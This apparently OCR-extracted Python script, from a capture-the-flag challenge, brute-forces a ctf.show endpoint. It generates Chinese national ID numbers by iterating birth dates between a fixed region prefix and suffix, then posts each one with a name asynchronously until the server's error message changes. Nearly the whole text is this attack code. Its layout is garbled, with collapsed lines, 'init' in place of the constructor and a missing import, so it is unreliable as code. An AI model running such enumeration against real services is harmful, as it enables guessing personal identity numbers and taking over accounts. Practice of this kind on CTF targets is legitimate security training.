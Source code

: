 ```python
url='https://bbc133e5-8f17-4c12-a7a2-88fecb9ac079.challenge.ctf.show/info/checkdb.php' NUM=32

def run_tasks(L): U=[] for i in L: U.append(asyncio.ensure_future(i)) loop = asyncio.get_event_loop() loop.run_until_complete(asyncio.wait(U))

class TaskRuner: def init(self,n) -> None: self.L=[] for i in range(n): self.L.append(self.task_function(i)) self.task_num=n async def task_function(self,n): pass def run(self): run_tasks(self.L) self.on_over() def on_over(self): pass

import aiohttp from urllib.parse import quote from datetime import date, timedelta

class NYR: def init(self,start_date,end_date) -> None: self.start_date=start_date self.end_date=end_date self.delta = timedelta(days=1) self.current_date = start_date def next(self): t=self.current_date if t>self.end_date: return None self.current_date+=self.delta return t

class Scanner(TaskRuner): def init(self,d1,d2,n) -> None: super().init(n) self.nyr=NYR(d1,d2) self.alive=True

async def task_function(self, n):
    while self.alive:
        u=self.nyr.next()
        if not u:
            break
        r=await self.login(u)
        if r:
            self.alive=False
async def login(self,t:date):
    url='https://bbc133e5-8f17-4c12-a7a2-88fecb9ac079.challenge.ctf.show/info/checkdb.php'
    n=t.year
    y=t.month
    r=t.day
    n=str(n)
    y=str(y)
    r=str(r)
    if len(y)==1:
        y='0'+y
    if len(r)==1:
        r='0'+r
    sfz='621022'+n+y+r+'5237'
    data={
        'a':'高先伊',
        'p':sfz,
    }
    sess=aiohttp.ClientSession()
    try:
        r=await sess.post(url=url,data=data,ssl=False)
        text=await r.text()
        js=loads(text)
        msg=js['msg']
        print(sfz,msg)
        await sess.close()
        return msg!='提交信息有误'
    except Exception as e:
        print(e)
        pass
    try:
        await sess.close()
    except:
        pass
    return False

async def handle_up(self,u,p):
    pass
```